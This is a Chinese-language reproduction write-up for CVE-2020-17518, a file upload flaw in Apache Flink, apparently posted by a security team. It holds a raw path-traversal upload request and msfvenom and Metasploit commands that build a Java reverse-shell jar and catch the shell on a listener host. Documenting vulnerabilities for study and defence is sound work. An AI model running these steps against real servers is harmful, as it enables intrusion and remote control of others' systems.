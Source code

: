 # CVE-2020-17518

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache Flink 文件上传漏洞

## 0x01 Apache Flink简介

Apache Flink 是一个框架和分布式处理引擎，用于在无边界和有边界数据流上进行有状态的计算。Flink 能在所有常见集群环境中运行，并能以内存速度和任意规模进行计算。Apache Flink 是一个分布式系统，它需要计算资源来执行应用程序。Flink 集成了所有常见的集群资源管理器，例如 Hadoop YARN、 Apache Mesos 和 Kubernetes，但同时也可以作为独立集群运行。

## 0x02 影响版本

```
Apache Flink 1.5.1 — 1.11.2
```

## 0x03 漏洞复现

1、访问Add New，上传

![image.png](image/image.png)

2、任意构造上传路径，上传文件。虽然响应显示400，但是已经上传成功。

```
POST /jars/upload HTTP/1.1
Host: 10.1.1.3:8081
Accept: */*
Content-Length: 240
Content-Type: multipart/form-data; boundary=------------------------23ef1e5684ec1135
Connection: close

--------------------------23ef1e5684ec1135
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/test.txt"
Content-Type: application/octet-stream

#test_content

--------------------------23ef1e5684ec1135--
```

## 0x04 漏洞进一步利用

上传jar包getshell

利用msfvenom工具生成.jar格式的木马，LHOST、LPORT为监听机器的IP和端口，此处利用Kali作为监听机。

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=4444 -f jar > rce.jar
```

在监听机执行

```
use exploit/multi/handler
set payload java/shell/reverse_tcp
set lhost 192.168.198.128
set lport 4444
explit
```

访问主页，点击Add New按钮，上传生成的rec.jar。

![image.png](image/image%201.png)

成功反弹shell。

![image.png](image/image%202.png)